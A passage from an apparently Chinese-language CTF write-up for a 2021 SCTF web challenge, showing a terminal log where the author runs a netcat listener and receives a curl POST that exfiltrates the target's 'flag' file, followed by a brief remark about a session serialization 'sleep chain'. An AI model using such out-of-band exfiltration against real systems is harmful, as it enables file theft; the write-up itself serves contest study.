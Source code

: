 ```shell
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags

--------------------------484cb7eb09ce5048--
^C
root@VM-0-6-ubuntu:~# nc -lvvp 39767
Listening on [0.0.0.0] (family 0, port 39767)
Connection from ecs-124-70-204-21.compute.hwclouds-dns.com 56698 received!
POST / HTTP/1.1
Host: 121.5.169.223:39767
User-Agent: curl/7.76.1
Accept: */*
Content-Length: 240
Content-Type: multipart/form-data; boundary=------------------------8ea4f0b370455f5a

--------------------------8ea4f0b370455f5a
Content-Disposition: form-data; name="file"; filename="flag"
Content-Type: application/octet-stream

SCTF{Wow_unS@f3_S3sSi0N_w0w_sL33P_Cha1n_woW}
--------------------------8ea4f0b370455f5a--
^C

```

看着`flag`知道这是一个`sleep chain`。。。赛后和别的师傅交流了一下才知道原来会进行`serialize`（是我菜了）：

![image-20211227113111379](2021-SCTF-Web-Writeup.assets/image-20211227113111379.png)
